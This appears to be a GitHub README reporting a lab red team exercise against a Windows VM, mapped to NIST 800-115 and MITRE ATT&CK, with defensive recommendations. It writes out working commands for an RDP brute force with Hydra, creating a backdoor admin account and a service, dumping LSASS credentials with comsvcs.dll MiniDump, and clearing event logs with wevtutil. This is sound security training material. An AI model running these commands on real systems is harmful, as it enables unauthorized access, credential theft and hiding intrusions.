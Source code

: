 # Red Team Engagement 
***Referencing NIST 800-115***  

> **Disclaimer**: The following documentation highlights malicious tactics and techniques used **exclusively** for **authorized Red Team** or penetration-testing exercises in alignment with **NIST SP 800-115** (Technical Guide to Information Security Testing and Assessment). Any real-world, unauthorized execution of these steps is **illegal** and unethical.

---

## 1. Overview
During this simulated Red Team engagement, the adversary (operating from a **Kali Linux** machine) identified and brute-forced Remote Desktop Protocol (RDP) on **king-vm**, successfully compromising the **Administrator** account. Once inside, the attacker performed system **enumeration**, **credential dumping**, and **log tampering**. The provided screenshots depict:
- Network scanning and service enumeration from Kali  
- Successful brute force attempts against the Administrator account  
- RDP session establishment and subsequent malicious commands on the target

---

## 2. NIST 800-115 Alignment
NIST SP 800-115 outlines four phases for penetration testing:
1. **Planning**: Defining scope and objectives  
2. **Discovery**: Gathering information, identifying vulnerabilities  
3. **Attack**: Exploiting systems and escalating privileges  
4. **Reporting**: Documenting findings, TTPs, and recommendations  

All malicious activities below were part of a **controlled** Red Team test, following these phases.

---

## 3. Reconnaissance & Initial Access (Kali Machine)
### 3.1 Network Scanning
From the **Kali** host, the attacker scanned the target’s IP to discover open ports/services:
`nmap -p 3389 <TARGET_IP>`

- Found **RDP (3389)** open on **king-vm**.

  ![alt text](https://github.com/K-ING-TECH/Attack-Defense_Adversary-Emulation/blob/main/nMap_Scan.png)

### 3.2 RDP Brute Force
Using a password-guessing tool (**Hydra**) on Kali, the attacker ran repeated login attempts against the **Administrator** account:
`hydra -l Administrator -P /path/to/passwordlist.txt rdp://<TARGET_IP>`
- Eventually gained a **valid** password for the built-in **Administrator** user.  
- This is visible in the screenshots, showing successful brute force output.

  ![alt text](https://github.com/K-ING-TECH/Attack-Defense_Adversary-Emulation/blob/main/Hydra_Enumeration.png)
  ![alt text](https://github.com/K-ING-TECH/Attack-Defense_Adversary-Emulation/blob/main/Credential_Discovery.png)

### 3.3 Establishing RDP Session
With a **valid password** discovered, the adversary used an RDP client from Kali (or any remote RDP client) to log in:
`rdesktop <TARGET_IP> -u Administrator -p <DiscoveredPassword>`
- Successfully accessed the **king-vm** desktop.  
- The screenshots show the attacker’s remote desktop session from Kali.

![alt text](https://github.com/K-ING-TECH/Attack-Defense_Adversary-Emulation/blob/main/RDP_Initiation.png)
![alt text](https://github.com/K-ING-TECH/Attack-Defense_Adversary-Emulation/blob/main/Successful_RDP.png)

---

## 4. Post-Exploitation Activities on king-vm
Once inside, the attacker performed several key actions.

### 4.1 System Enumeration
Commands executed:
```
whoami
hostname
winver
systeminfo
ipconfig /all
arp -a
```

Identified OS version, patch level, network configuration, and local user context (administrator).

### 4.2 Privilege Escalation & Persistence
Administrator Account Modification

```
net user administrator Plokijuhy
Attempt to change Administrator password.
Creating a New Local Admin
```

```
net user EvilAdmin P@ssw0rd /add
net localgroup administrators EvilAdmin /add
```

Gave **EvilAdmin** full administrative privileges.

Malicious Service Creation

```
sc create EvilService
```

Used to register a potentially malicious service in the registry for persistence or lateral movement.

#### Modified registry keys under `HKCU`

### 4.3 Credential Dumping
```
tasklist | findstr lsass
rundll32 C:\Windows\System32\comsvcs.dll, MiniDump 648 C:\lsass.dmp full
```

Dumped LSASS process into `C:\lsass.dmp`, allowing offline credential extraction (NTLM hashes or clear-text passwords if available).

### 4.4 Log Tampering
```
wevtutil el
wevtutil cl "Application"
wevtutil cl "Windows PowerShell"
```

Attempted clearing event logs with wevtutil to cover tracks. Some operations returned “Access is denied”, but the intent was clear.

---

## 5 MITRE ATT&CK Techniques
**T1078 - Valid Accounts:** Gaining admin access via brute force.

**T1003 - Credential Dumping:** Dumped LSASS memory using rundll32 comsvcs.dll, MiniDump.

**T1136 - Create Account:** Created “EvilAdmin” for persistent access.

**T1543 - Create or Modify System Process:** Registered new service EvilService to maintain foothold.

**T1070.001 - Log Deletion:** Attempted to clear event logs via wevtutil.

---

## 6. Findings & Recommendations
Enforce Strong Access Controls

Use MFA for RDP logins.
Enforce lockout policies after multiple failed attempts.
Restrict RDP Exposure

Avoid public-facing RDP; use VPN or a secure jump host.
Segment networks so that RDP is only accessible where necessary.
Credential Protection

Enable LSASS protections (e.g., Credential Guard).
Regularly monitor for MiniDump or suspicious processes.
Enhanced Logging & Alerts

Alert on event log clearing attempts and new service creations.
Monitor for repeated login failures or brute force patterns.
Harden Built-in Admin Accounts

Rename or disable default **Administrator** if not strictly required.
Implement password rotation and store credentials in a secure vault.

All commands ran on target machine by attacker recorded here:
[recorded commands](https://github.com/K-ING-TECH/Attack-Defense_Adversary-Emulation/blob/main/Windows_CMD_Output.txt)

---

### 7. Conclusion
From their Kali attack box, the Red Team scanned, brute-forced, and established RDP access to king-vm using the default Administrator account. Post-compromise, they performed reconnaissance, created new administrator accounts, dumped credentials from LSASS, and attempted to delete Windows event logs. This scenario illustrates how unsecured RDP endpoints can lead to devastating intrusions. Following NIST SP 800-115 guidelines, the organization can implement stricter remote access controls, better monitoring, and robust credential policies to mitigate similar threats in the future.
